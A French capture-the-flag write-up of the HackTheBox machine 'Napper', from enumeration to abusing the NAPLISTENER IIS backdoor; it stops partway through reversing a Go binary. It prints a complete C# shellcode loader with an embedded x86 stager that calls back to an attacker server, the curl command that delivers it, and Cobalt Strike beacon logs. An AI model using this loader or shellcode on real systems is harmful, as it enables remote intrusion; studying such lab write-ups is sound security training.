# Introduction

Cette box windows avait la particularité de ne pas reposer sur de l'exploitation d'Active Directory comme c'est souvent le cas sur HackTheBox. Même si la première partie pour flag l'user était assez peu technique, la privesc reposait sur du Reverse Engineering d'un binaire codé en Go. Donc j'ai décidé d'en faire un Write Up! On commence par un scan nmap comme d'hab!

# Reconnaissance

Comme précisé dans l'intro, la machine à attaquer ne fait pas partie d'un domaine, on n'a donc pas les ports spécifiques à un controlleur de domaine:

```txt
nmap -sC -sV -p- 10.10.11.240   
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-06 18:51 EST
Nmap scan report for app.napper.htb (10.10.11.240)
Host is up (0.026s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to https://app.napper.htb
|_http-server-header: Microsoft-IIS/10.0
443/tcp open  ssl/http Microsoft IIS httpd 10.0
|_http-generator: Hugo 0.112.3
|_http-server-header: Microsoft-IIS/10.0
|_ssl-date: 2024-01-06T23:53:44+00:00; +2s from scanner time.
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=app.napper.htb/organizationName=MLopsHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:app.napper.htb
| Not valid before: 2023-06-07T14:58:55
|_Not valid after:  2033-06-04T14:58:55
| tls-alpn: 
|_  http/1.1
|_http-title: Research Blog | Home 
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 1s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.02 seconds
```

On a donc juste un serveur `Internet Information Services` qui tourne sur le port 443 / 80 et et qui héberge entre autre le sous-domaine `app.napper.htb`. Après avoir ajouté le nom de domaine dans notre fichier `/etc/hosts` voilà à quoi ressemble le site web hébergé:

<div>
    
</div>

# Enumeration

Ca ressemble à un blog de hacking classique avec un thème hugo, on va tenter deux énumérations: Une sur les chemins d'accès du site et l'autre sur les sous-domaines. Pour l'énumération des sous-domaines avec gobuster, il faut bien passer par l'option `vhost` qui va injecter dans l'en-tête `Host` et pas par l'option `dns` qui elle va se baser sur des requêtes DNS. De plus sur les version récentes, bien penser à mettre l'option `--append-domain` lorsque l'on teste avec le domaine de base.

Pour l'énumération des chemins d'accès, on a pas grand chose de pertinet:

```txt
gobuster dir -u https://napper.htb -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://napper.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 145] [--> https://napper.htb/js/]
/css                  (Status: 301) [Size: 146] [--> https://napper.htb/css/]
/page                 (Status: 301) [Size: 147] [--> https://napper.htb/page/]
/tags                 (Status: 301) [Size: 147] [--> https://napper.htb/tags/]
/.                    (Status: 200) [Size: 5602]
/fonts                (Status: 301) [Size: 148] [--> https://napper.htb/fonts/]
/CSS                  (Status: 301) [Size: 146] [--> https://napper.htb/CSS/]
/categories           (Status: 301) [Size: 153] [--> https://napper.htb/categories/]
```

En revanche pour l'énumération des sous-domaines on a quelque chose de plus concluant!

```txt
gobuster vhost -u https://napper.htb -k -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             https://napper.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: internal.napper.htb Status: 401 [Size: 1293]
```

Après avoir ajouté le sous domaine au fichier hosts, on est vite stoppé par une demande d'authentification et après avoir testé les méthodes classiques de confusions de méthodes, on peut se décider à aller chercher dans le contenu du blog en quête d'indices:

<div>
    
</div>

L'article qui attire naturellement l'attention c'est celui qui traite de la mise en place de la `Basic Authentication` sur un IIS avec Powershell:

<div>
    
</div>

Ici le tutoriel suivi utilise une `Secure-String` basée sur un mot de passe en clair, on peut donc tester les identifiants: `example` / `ExamplePassword` au cas où le propriétaire du blog aurait simplement copié collé le contenu du tutoriel, et Bingo!

```txt
curl -k https://internal.napper.htb -u example:ExamplePassword -I     
HTTP/2 200 
content-length: 4115
content-type: text/html
last-modified: Thu, 08 Jun 2023 11:54:48 GMT
accept-ranges: bytes
etag: "21184609ad91:0"
server: Microsoft-IIS/10.0
date: Sun, 07 Jan 2024 00:13:09 GMT
```

On a maintenant accès au sous domaine interne du site avec un article en plus:

<div>
    
</div>

# Accès

Hmm il est question d'une backdoor nommée `NAPLISTENER` (qui existe vraiment, il y'a de la doc à son sujet [ici](https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph)). Cette backdoor serait donc testée actuellement par l'équipe d'analyse de malware sur la machine, il va nous falloir trouver un moyen d'y avoir accès. En se renseignant un peu on découvre que la backdoor est censée exécuté un assembly .NET encodé en Base64 et passé à l'endpoint `/ews/MsExgHealthCheckd/` dans le paramètre `sdafwe3rwe23`. Pour vérifier que le serveur IIS est bien infecté par la backdoor on peut remarquer la présence d'un en-tête `server` supplémentaire renvoyé lorsque l'on accède à l'endpoint utilisé par la backdoor:

```txt
curl -k https://10.10.11.240/ews/MsExgHealthCheckd/:443 -I
HTTP/2 404 
content-length: 0
content-type: text/html; charset=utf-8
server: Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0
x-powered-by: ASP.NET
date: Sun, 07 Jan 2024 00:30:59 GMT
```

l'en tête `Microsoft-HTTPAPI/2.0` correspond à l'espace de noms .NET `System.Net` qui définit la classe `HttpListener` utilisée par la backdoor.
Pour construire mon payload je vais utiliser un `stager Cobalt Strike`, l'assembly se chargera de l'injecter en mémoire en utilisant une méthode classique (on est sur HackTheBox, vu le niveau de difficulté de la box, l'AV n'est probablement pas activé).

Pour compiler l'assembly on va utiliser Visual Studio et Créer un nouveau projet C# de type `Bibliothèque de classes`. Voilà le code du programme qui va charger notre stager dans la mémoire non managée:

```cs
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace DropperMeterpreter
{

    public static class Globals
    {
        public static byte[] shellcode = new byte[797] { 0xfc, 0xe8, 0x89, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xd2, 0x64, 0x8b, 0x52, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf0, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x42, 0x3c, 0x01, 0xd0, 0x8b, 0x40, 0x78, 0x85, 0xc0, 0x74, 0x4a, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x8b, 0x58, 0x20, 0x01, 0xd3, 0xe3, 0x3c, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0x31, 0xc0, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf4, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe2, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x58, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x86, 0x5d, 0x68, 0x6e, 0x65, 0x74, 0x00, 0x68, 0x77, 0x69, 0x6e, 0x69, 0x54, 0x68, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x57, 0x57, 0x57, 0x57, 0x68, 0x3a, 0x56, 0x79, 0xa7, 0xff, 0xd5, 0xe9, 0x84, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xc9, 0x51, 0x51, 0x6a, 0x03, 0x51, 0x51, 0x68, 0x50, 0x00, 0x00, 0x00, 0x53, 0x50, 0x68, 0x57, 0x89, 0x9f, 0xc6, 0xff, 0xd5, 0xeb, 0x70, 0x5b, 0x31, 0xd2, 0x52, 0x68, 0x00, 0x02, 0x40, 0x84, 0x52, 0x52, 0x52, 0x53, 0x52, 0x50, 0x68, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x89, 0xc6, 0x83, 0xc3, 0x50, 0x31, 0xff, 0x57, 0x57, 0x6a, 0xff, 0x53, 0x56, 0x68, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x0f, 0x84, 0xc3, 0x01, 0x00, 0x00, 0x31, 0xff, 0x85, 0xf6, 0x74, 0x04, 0x89, 0xf9, 0xeb, 0x09, 0x68, 0xaa, 0xc5, 0xe2, 0x5d, 0xff, 0xd5, 0x89, 0xc1, 0x68, 0x45, 0x21, 0x5e, 0x31, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x6a, 0x07, 0x51, 0x56, 0x50, 0x68, 0xb7, 0x57, 0xe0, 0x0b, 0xff, 0xd5, 0xbf, 0x00, 0x2f, 0x00, 0x00, 0x39, 0xc7, 0x74, 0xb7, 0x31, 0xff, 0xe9, 0x91, 0x01, 0x00, 0x00, 0xe9, 0xc9, 0x01, 0x00, 0x00, 0xe8, 0x8b, 0xff, 0xff, 0xff, 0x2f, 0x6e, 0x68, 0x37, 0x4f, 0x00, 0x23, 0x6e, 0x65, 0x9b, 0xf6, 0x14, 0x96, 0x54, 0x0e, 0xd4, 0xa5, 0x23, 0x30, 0x34, 0x8c, 0x5d, 0x2c, 0x56, 0x03, 0x3f, 0x8d, 0x6a, 0x5a, 0x88, 0xb8, 0x51, 0xf4, 0x3c, 0x13, 0x01, 0x79, 0xc0, 0x47, 0x0b, 0x2c, 0x50, 0xde, 0x12, 0x37, 0x51, 0x60, 0x52, 0xfa, 0xd5, 0xe6, 0x15, 0xfa, 0xc8, 0xb8, 0x31, 0x99, 0xe4, 0x8e, 0x6a, 0x47, 0x04, 0xd1, 0x9c, 0xa1, 0xb1, 0xf3, 0xbf, 0x01, 0x2e, 0x32, 0xd1, 0xf1, 0xbb, 0xad, 0xd9, 0x7e, 0x26, 0x95, 0x00, 0x55, 0x73, 0x65, 0x72, 0x2d, 0x41, 0x67, 0x65, 0x6e, 0x74, 0x3a, 0x20, 0x4d, 0x6f, 0x7a, 0x69, 0x6c, 0x6c, 0x61, 0x2f, 0x35, 0x2e, 0x30, 0x20, 0x28, 0x63, 0x6f, 0x6d, 0x70, 0x61, 0x74, 0x69, 0x62, 0x6c, 0x65, 0x3b, 0x20, 0x4d, 0x53, 0x49, 0x45, 0x20, 0x39, 0x2e, 0x30, 0x3b, 0x20, 0x57, 0x69, 0x6e, 0x64, 0x6f, 0x77, 0x73, 0x20, 0x4e, 0x54, 0x20, 0x36, 0x2e, 0x31, 0x3b, 0x20, 0x57, 0x4f, 0x57, 0x36, 0x34, 0x3b, 0x20, 0x54, 0x72, 0x69, 0x64, 0x65, 0x6e, 0x74, 0x2f, 0x35, 0x2e, 0x30, 0x3b, 0x20, 0x4d, 0x41, 0x4c, 0x43, 0x4a, 0x53, 0x29, 0x0d, 0x0a, 0x00, 0x8b, 0x10, 0x65, 0x14, 0xf4, 0x7e, 0xec, 0x01, 0xe9, 0x16, 0x2e, 0x3d, 0x76, 0x34, 0x0d, 0x0e, 0xb1, 0x02, 0x56, 0x5b, 0xe4, 0x5a, 0x75, 0xbd, 0x32, 0xc5, 0xe3, 0x2c, 0xf1, 0x95, 0x36, 0x8a, 0x7f, 0x49, 0x9f, 0x0d, 0x4b, 0x50, 0x04, 0x46, 0x67, 0x3e, 0x0a, 0xf7, 0x36, 0xb8, 0xb5, 0x10, 0x2f, 0x26, 0xf3, 0x6e, 0x63, 0xc9, 0x7d, 0x78, 0x0f, 0x85, 0x20, 0x3c, 0x25, 0x78, 0x40, 0x30, 0x59, 0x61, 0x1b, 0x54, 0xdd, 0xa2, 0x4e, 0xae, 0x8b, 0x85, 0x84, 0xd3, 0x15, 0xd5, 0xeb, 0xac, 0x77, 0xdc, 0xa1, 0x4a, 0x40, 0x63, 0xb9, 0x0f, 0x3c, 0x77, 0x11, 0xde, 0x80, 0xd9, 0x52, 0x45, 0x52, 0x61, 0xec, 0x86, 0xd2, 0x3e, 0x3e, 0x6f, 0xb6, 0x77, 0x24, 0xf6, 0x69, 0xae, 0x4f, 0x01, 0xce, 0x3d, 0x18, 0x29, 0x29, 0x3d, 0xf6, 0x7a, 0xc9, 0x14, 0x25, 0x34, 0x2f, 0x57, 0x95, 0xbc, 0x26, 0xd5, 0x00, 0x17, 0x17, 0x00, 0x25, 0x59, 0xb6, 0xdc, 0x5e, 0xd7, 0x89, 0xfa, 0x11, 0x4b, 0x35, 0x04, 0x10, 0x57, 0x33, 0x25, 0x8f, 0xcd, 0x8f, 0x7c, 0x72, 0x12, 0x28, 0x7c, 0x1d, 0xad, 0xbb, 0x98, 0x0e, 0x63, 0xa3, 0x1b, 0x98, 0xc5, 0x68, 0x39, 0x08, 0xed, 0x5d, 0x16, 0xb8, 0x6a, 0xe5, 0xaa, 0xa9, 0x94, 0x82, 0x24, 0x7e, 0x0d, 0x8a, 0x0d, 0xbe, 0x0f, 0x19, 0x65, 0x86, 0xcd, 0x4a, 0xc2, 0x4b, 0xef, 0x55, 0x81, 0x74, 0xeb, 0x19, 0x82, 0x3e, 0x21, 0x68, 0xdb, 0x73, 0xdb, 0xee, 0x46, 0x00, 0x68, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x6a, 0x40, 0x68, 0x00, 0x10, 0x00, 0x00, 0x68, 0x00, 0x00, 0x40, 0x00, 0x57, 0x68, 0x58, 0xa4, 0x53, 0xe5, 0xff, 0xd5, 0x93, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x01, 0xd9, 0x51, 0x53, 0x89, 0xe7, 0x57, 0x68, 0x00, 0x20, 0x00, 0x00, 0x53, 0x56, 0x68, 0x12, 0x96, 0x89, 0xe2, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0xc6, 0x8b, 0x07, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xe5, 0x58, 0xc3, 0xe8, 0xa9, 0xfd, 0xff, 0xff, 0x31, 0x30, 0x2e, 0x31, 0x30, 0x2e, 0x31, 0x34, 0x2e, 0x32, 0x30, 0x37, 0x00, 0x3a, 0xde, 0x68, 0xb1 };
    }

    public class Run
    {
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, int dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
        public Run()
        {

            IntPtr alloc = VirtualAlloc(IntPtr.Zero, Globals.shellcode.Length, (uint)(AllocationType.Commit | AllocationType.Reserve), (uint)MemoryProtection.ExecuteReadWrite);
            if (alloc == IntPtr.Zero)
            {
                return;
            }

            Marshal.Copy(Globals.shellcode, 0, alloc, Globals.shellcode.Length);
            IntPtr threadHandle = CreateThread(IntPtr.Zero, 0, alloc, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(threadHandle, 0xFFFFFFFF);
        }
    }
    [Flags]
    public enum FreeType
    {
        Decommit = 0x4000,
        Release = 0x8000,
    }

    [Flags]
    public enum AllocationType
    {
        Commit = 0x1000,
        Reserve = 0x2000,
        Decommit = 0x4000,
        Release = 0x8000,
        Reset = 0x80000,
        Physical = 0x400000,
        TopDown = 0x100000,
        WriteWatch = 0x200000,
        LargePages = 0x20000000
    }

    [Flags]
    public enum MemoryProtection
    {
        Execute = 0x10,
        ExecuteRead = 0x20,
        ExecuteReadWrite = 0x40,
        ExecuteWriteCopy = 0x80,
        NoAccess = 0x01,
        ReadOnly = 0x02,
        ReadWrite = 0x04,
        WriteCopy = 0x08,
        GuardModifierflag = 0x100,
        NoCacheModifierflag = 0x200,
        WriteCombineModifierflag = 0x400
    }
}
```

Je ne vais pas rentrer dans les détails étant donné que c'est une boilerplate de shellcode très classique. Néanmoins il est important de noter qu'étant donné que le processus qui va charger notre assembly est un processus `x86`, il faut donc générer un shellcode `x86` et pas `x64` et idem pour la compilation dans Visual Studio, bien mettre l'option `Any CPU` pour la cible. Je pense que cela peut poser problème dans des cas d'accès au `PEB` par exemple (de manière générale pour les injections de code dans des processus, bien respecter l'architecture du processus hôte). Une fois cela pris en compte on peut tester l'envoi de notre payload comme ceci:

```txt
curl  -k "https://10.10.11.240:443/ews/MsExgHealthCheckd/" --data-urlencode "sdafwe3rwe23=$(base64 DropperMeterpreter.dll)"
```

Et on obtient bien une session sur le `TeamServer`:

<div>
    
</div>

Cette sessions tourne sous l'utilisateur `ruben` à un niveau d'intégrité standard:

```txt
USER INFORMATION
----------------
User Name    SID                                           
============ ==============================================
napper\ruben S-1-5-21-1567175541-2888103920-4161894620-1001
GROUP INFORMATION
-----------------
Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                   Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

Après avoir récupéré le flag user à `C:\Users\ruben\Desktop\user.txt`, on commence à chercher aux endroits habituels pour pour trouver un moyen de privesc:

* `C:\inetpub` (là où est stocké le code et les données d'un serveur IIS)
* `C:\Users\ruben` (Le dossier utilisateur)
* `C:\Program Files\` (Le dossier d'installation des programmes par défault)

On peut aussi lister les utilisateurs locaux:

```txt
[02/04 10:47:52] beacon> shell net user
[02/04 10:47:52] [*] Tasked beacon to run: net user
[02/04 10:47:52] [+] host called home, sent: 39 bytes
[02/04 10:47:52] [+] received output:

User accounts for \\NAPPER

-------------------------------------------------------------------------------
Administrator            backup                   DefaultAccount           
example                  Guest                    ruben                    
WDAGUtilityAccount       
The command completed successfully.

[02/04 10:46:28] beacon> shell net user backup
[02/04 10:46:28] [*] Tasked beacon to run: net user backup
[02/04 10:46:28] [+] host called home, sent: 46 bytes
[02/04 10:46:28] [+] received output:
User name                    backup
Full Name                    backup
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/4/2024 7:42:36 AM
Password expires             Never
Password changeable          2/4/2024 7:42:36 AM
Password required            Yes

User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2/3/2024 3:08:58 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
```

L'utilisateur `backup` fait partie des administrateurs locaux, c'est de ce compte que l'on devra prendre le contrôle.
On peut aussi essayer de lister les ports ouverts en interne pour trouver des services internes:

```txt
Proto  Local Address          Foreign Address        State           PID
TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       896
TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       2896
TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       672
TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       516
TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1080
TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1464
TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       652
TCP    10.10.11.240:139       0.0.0.0:0              LISTENING       4
TCP    127.0.0.1:9200         0.0.0.0:0              LISTENING       4852
TCP    127.0.0.1:9300         0.0.0.0:0              LISTENING       4852
TCP    [::]:80                [::]:0                 LISTENING       4
TCP    [::]:135               [::]:0                 LISTENING       896
TCP    [::]:443               [::]:0                 LISTENING       4
TCP    [::]:445               [::]:0                 LISTENING       4
TCP    [::]:49664             [::]:0                 LISTENING       672
TCP    [::]:49665             [::]:0                 LISTENING       516
TCP    [::]:49666             [::]:0                 LISTENING       1080
TCP    [::]:49667             [::]:0                 LISTENING       1464
TCP    [::]:49668             [::]:0                 LISTENING       652
UDP    0.0.0.0:123            *:*                                    6032
UDP    0.0.0.0:5050           *:*                                    2896
UDP    0.0.0.0:5353           *:*                                    1880
UDP    0.0.0.0:5355           *:*                                    1880
UDP    10.10.11.240:137       *:*                                    4
UDP    10.10.11.240:138       *:*                                    4
UDP    10.10.11.240:1900      *:*                                    4668
UDP    10.10.11.240:62071     *:*                                    4668
UDP    127.0.0.1:1900         *:*                                    4668
UDP    127.0.0.1:49664        *:*                                    2752
UDP    127.0.0.1:62072        *:*                                    4668
UDP    [::]:123               *:*                                    6032
UDP    [::]:5353              *:*                                    1880
UDP    [::]:5355              *:*                                    1880
UDP    [::1]:1900             *:*                                    4668
UDP    [::1]:62070            *:*                                    4668
UDP    [fe80::b5d1:843e:603a:e055%10]:1900  *:*                                    4668
UDP    [fe80::b5d1:843e:603a:e055%10]:62069  *:*                                    4668
```

Les ports 9200 et 9300 sont associés au service `Elasticsearch`. C'est dans le dossier temporaire `C:\Temp` qu'on trouve le code du blog:

```txt
[01/07 10:38:05] beacon> ls
[01/07 10:38:05] [*] Tasked beacon to list files in .
[01/07 10:38:05] [+] host called home, sent: 19 bytes
[01/07 10:38:05] [*] Listing: c:\Temp\www\internal\
 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     06/09/2023 00:18:40   archetypes
          dir     06/08/2023 11:14:20   assets
          dir     06/09/2023 00:18:40   content
          dir     06/08/2023 11:14:20   data
          dir     06/08/2023 11:14:20   layouts
          dir     06/09/2023 00:18:41   public
          dir     06/09/2023 00:18:40   resources
          dir     06/08/2023 11:14:20   static
          dir     06/09/2023 00:18:41   themes
 0b       fil     06/09/2023 00:18:40   .hugo_build.lock
 1003b    fil     06/09/2023 00:18:40   hugo.toml
```

Dans le dossier `content` qui contient le contenu des articles en MarkDown on remarque un article qui n'est pas encore publié sur le blog

```txt
---
title: "**INTERNAL** Getting rid of LAPS"
description: Replacing LAPS with out own custom solution
date: 2023-07-01
draft: true 
tags: [internal, sysadmin] 
---
# Intro
We are getting rid of LAPS in favor of our own custom solution. 
The password for the `backup` user will be stored in the local Elastic DB.
IT will deploy the decryption client to the admin desktops once it it ready. 
We do expect the development to be ready soon. The Malware RE team will be the first test group.
```

Il explique que le serveur Elasticsearch est entre autre utilisé pour garder le mot de passe de l'utilisateur `backup` et que la machine implémente une solution custom pour le générer à la place de [LAPS](https://www.it-connect.fr/chapitres/quest-ce-que-microsoft-laps/). Dans le dossier `internal-laps-alpha` On trouve la version alpha du système LAPS custom:

```txt
[01/07 11:08:24] beacon> cd internal-laps-alpha
[01/07 11:08:24] [*] cd internal-laps-alpha
[01/07 11:08:24] [+] host called home, sent: 27 bytes
[01/07 11:08:26] beacon> ls
[01/07 11:08:26] [*] Tasked beacon to list files in .
[01/07 11:08:26] [+] host called home, sent: 19 bytes
[01/07 11:08:26] [*] Listing: c:\Temp\www\internal\content\posts\internal-laps-alpha\
 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 82b      fil     06/09/2023 00:28:35   .env
 12mb     fil     06/09/2023 00:20:07   a.exe
```

On télécharge les deux fichiers pour pouvoir en faire une analyse plus approfondie.

# Rétro-ingéniérie

Le premier fichier contient un ensemble de variables d'environnement et le second est un exécutable Windows:

```txt
cat .env
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here
ELASTICURI=https://127.0.0.1:9200
file a.exe
a.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 13 sections
```

On charge le binaire dans IDA et on découvre que le binaire a été codé en Go ce qui va nous compliquer un peu la tâche. Heureusement le binaire n'est pas complètement strippé ce qui fait qu'entre autre les noms des `RTTI` seront toujours présents ce qui ne sera pas du luxe pour faire le retypage. En effet on peut voir dans les types locaux que beaucoup de structures on été ajoutés:

<div>
    
</div>

On commence par jeter un oeil aux fonctions et à leurs noms, étant donné que le binaire est codé en Go, il est statiquement linké ce qui implique que tous les symboles nécessaires comme ceux associés au runtime vont être présents et cela vaut aussi pour les libs externes comme par exemples `github_com_joho_godotenv_` qui est donc un package importé. On peut trouver le code de la fonction `main_main` qui est la fonction main du package main, là où le programme en tant que tel commence. Voilà un aperçu de la décompilation dans IDA Pro:

<div>
    
</div>

